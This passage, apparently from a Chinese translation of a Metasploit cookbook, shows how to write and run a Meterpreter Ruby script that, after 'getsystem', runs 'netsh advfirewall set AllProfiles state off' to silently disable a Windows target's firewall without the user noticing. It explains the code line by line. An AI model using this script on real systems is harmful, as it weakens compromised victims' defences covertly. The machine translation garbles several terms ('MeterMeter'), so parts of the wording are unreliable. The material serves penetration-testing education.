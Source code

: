     输入代码后，将其另存为 `/pentest/exploits/framework3/scripts/meterpreter`下的 `myscript.rb`。

2.  要执行此脚本，我们需要一个 MeterMeter 会话。Ruby 脚本可以使用 `run`命令执行。但是，在使用脚本之前，请确保您在目标计算机上具有系统权限。

    ```
    meterpreter > getsystem
    ...got system (via technique 4).
    meterpreter > run myscript.rb
    [*] disabling the default firewall
    meterpreter > 
    ```

答对 了成功执行脚本将以静默方式禁用默认防火墙。命令在后台执行，因此目标用户仍然不知道该命令。现在让我们详细了解脚本。

## 它是如何工作的。。。

让我们分析脚本的每一部分。

```
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default Windows Firewall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
} 
```

这些代码行只不过是我们可以随脚本一起传递的选项。在此脚本中，我们唯一可用的选项是显示脚本使用消息的 `-h`参数。您可以将这段代码保存为模板，以便在脚本中创建选项。您将遇到几个可以直接在您自己的脚本中使用的代码片段。

该脚本首先创建一个 hash（opts），其中包括 Rex 库，它是 Ruby 扩展库的缩写形式。唯一的键是 `-h`。用法值设置为“false”，这意味着这是脚本的可选参数。接下来的几行代码与脚本提供的选项匹配，并跳转到特定情况下，使用 `print_line()`显示消息。在我们的案例中，我们只使用了一个选项（`-h`。

```
unsupported if client.platform !~ /win32|win64/i
begin
print_status("disabling the default firewall")
cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5)
end 
```

脚本的这一部分是特定于操作的。它从验证客户端操作系统开始。然后使用 MeterMeter mixin `cmd_exec()`，它可以执行隐藏和通道化的命令。要执行的命令是 `netsh advfirewall set AllProfiles state off`。mixin 在客户端计算机上通过命令提示符在上下文中调用此命令，其成功执行将禁用 windows 防火墙。

您可以通过添加更多功能和尝试不同的可能性来使用脚本。你做的实验越多，你就会学得越好。

这是一个关于如何构建 MeterMeter 脚本的简短演示。在下一个配方中，我们将查看一个高级 MeterMeter 脚本，并详细了解它。

## 还有更多。。。
